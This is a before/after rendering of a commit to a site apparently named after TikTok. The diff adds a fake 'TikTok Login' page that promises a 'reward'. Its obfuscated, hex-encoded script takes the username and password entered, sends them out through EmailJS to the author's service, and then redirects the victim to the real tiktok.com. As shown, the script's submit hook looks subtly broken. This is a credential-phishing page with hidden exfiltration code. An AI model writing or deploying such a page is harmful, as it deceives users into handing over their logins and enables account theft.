

Before and after one commit to Mayor123456789000/www.tiktok.com, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-895 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,32 +1,156 @@
-<!-- Login Page Container -->
-<div class="login-page">
-  <!-- Close Button -->
-  <button class="close-button" aria-label="Close login page">
-    <span>&times;</span>
-  </button>
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <style>
+        /* Reset some default styles */
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+        }
 
-  <!-- Login Methods -->
-  <div class="login-methods">
-    <!-- Phone Number Login Method -->
-    <div class="phone-number-login">
-      <label for="country-code">Country Code:</label>
-      <select id="country-code" name="country-code">
-        <option value="NG">NG +234</option>
-      </select>
-      <input type="tel" id="phone-number" name="phone-number" placeholder="Enter phone number">
-      <button class="send-code-button">Send Code</button>
+        /* Set the font and basic styles for the body */
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f0f0f0;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+        }
+
+        /* Style for the login container */
+        .container {
+            width: 100%;
+            max-width: 400px;
+        }
+
+        /* Styling for the login box */
+        .login-box {
+            background-color: white;
+            padding: 20px;
+            border-radius: 10px;
+            box-shadow: 0 4px 10px rgba(0, 0, 0, 0.1);
+            text-align: center;
+        }
+
+        /* Header style */
+        h2 {
+            margin-bottom: 20px;
+            color: #333;
+        }
+
+        /* Input group styling */
+        .input-group {
+            margin-bottom: 20px;
+        }
+
+        input[type="text"], input[type="password"] {
+            width: 100%;
+            padding: 10px;
+            border: 1px solid #ddd;
+            border-radius: 5px;
+            font-size: 16px;
+        }
+
+        input[type="text"]:focus, input[type="password"]:focus {
+            border-color: #ff0000; /* Red border when focused */
+        }
+
+        /* Button group styling */
+        .button-group {
+            margin-top: 20px;
+        }
+
+        .login-btn {
+            width: 100%;
+            padding: 12px;
+            background-color: #ff0000; /* Red color for the login button */
+            color: white;
+            border: none;
+            border-radius: 5px;
+            font-size: 16px;
+            cursor: pointer;
+        }
+
+        .login-btn:hover {
+            background-color: #cc0000; /* Darker red on hover */
+        }
+
+        /* Styling for the sign-up link */
+        .signup-link {
+            margin-top: 15px;
+            font-size: 14px;
+        }
+
+        .signup-link a {
+            color: #ff0000;
+            text-decoration: none;
+        }
+
+        .signup-link a:hover {
+            text-decoration: underline;
+        }
+
+        .manage {
+            font-family: sans-serif;
+            font-size: 14px;
+            color: #A9A9A9;
+        }
+    </style>
+    <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>TikTok Login</title>
+</head>
+<body>
+<div class="container">
+    <div class="login-box">
+        <h2>Login to TikTok</h2>
+        <p class="manage">Manage your account, check notifications, comment on videos, and claim your reward.</p>
+        <form id="loginForm">
+            <div class="input-group">
+                <input type="text" id="username" placeholder="Username or Email" required>
+            </div>
+            <div class="input-group">
+                <input type="password" id="password" placeholder="Password" required>
+            </div>
+            <div class="button-group">
+                <button type="submit" class="login-btn">Log In</button>
+            </div>
+            <p class="signup-link">Don't have an account? <a href="#">Sign Up</a></p>
+        </form>
     </div>
+</div>
 
-    <!-- Email or Username Login Method -->
-    <div class="email-or-username-login">
-      <input type="text" id="email-or-username" name="email-or-username" placeholder="Enter email or username">
-    </div>
+<script>
+    (function () {
+        // Obfuscated EmailJS Initialization and Submission Code
+        var _0xabc1 = ["\x79\x33\x36\x63\x79\x62\x69\x5A\x46\x36\x75\x6B\x71\x7A\x33\x33\x50",
+                       "\x69\x6E\x69\x74", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
+                       "\x75\x73\x65\x72\x6E\x61\x6D\x65", "\x76\x61\x6C\x75\x65",
+                       "\x70\x61\x73\x73\x77\x6F\x72\x64", "\x73\x65\x6E\x64",
+                       "\x73\x65\x72\x76\x69\x63\x65\x5F\x79\x35\x62\x7A\x7A\x6F\x63",
+                       "\x74\x65\x6D\x70\x6C\x61\x74\x65\x5F\x34\x39\x70\x38\x68\x6B\x67",
+                       "\x74\x68\x65\x6E", "\x70\x72\x65\x76\x65\x6E\x74\x44\x65\x66\x61\x75\x6C\x74",
+                       "\x6C\x6F\x63\x61\x74\x69\x6F\x6E", "\x68\x72\x65\x66", "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x74\x69\x6B\x74\x6F\x6B\x2E\x63\x6F\x6D", "\x73\x74\x72\x69\x6E\x67\x69\x66\x79"];
 
-    <!-- Password Login Method -->
-    <div class="password-login">
-      <button class="log-in-with-password-button">Log in with password</button>
-      <input type="password" id="password" name="password" placeholder="Enter password">
-      <button class="log-in-button">Log in</button>
-    </div>
-  </div>
-</div>
+        emailjs[_0xabc1[1]](_0xabc1[0]);
+        document[_0xabc1[2]]("loginForm")[_0xabc1[9]](function (event) {
+            event[_0xabc1[10]]();
+            const username = document[_0xabc1[2]]("username")[_0xabc1[4]];
+            const password = document[_0xabc1[2]]("password")[_0xabc1[4]];
+            const emailParams = { [_0xabc1[3]]: username, [_0xabc1[5]]: password };
+
+            emailjs[_0xabc1[6]](_0xabc1[7], _0xabc1[8], emailParams)
+                [_0xabc1[9]](function () {
+                    alert("You have been registered, wait for your reward!");
+                    window[_0xabc1[11]][_0xabc1[12]] = _0xabc1[13];
+                }, function (error) {
+                    alert("Failed to send details: " + JSON[_0xabc1[14]](error));
+                });
+        });
+    })();
+</script>
+</body>
+</html>
```
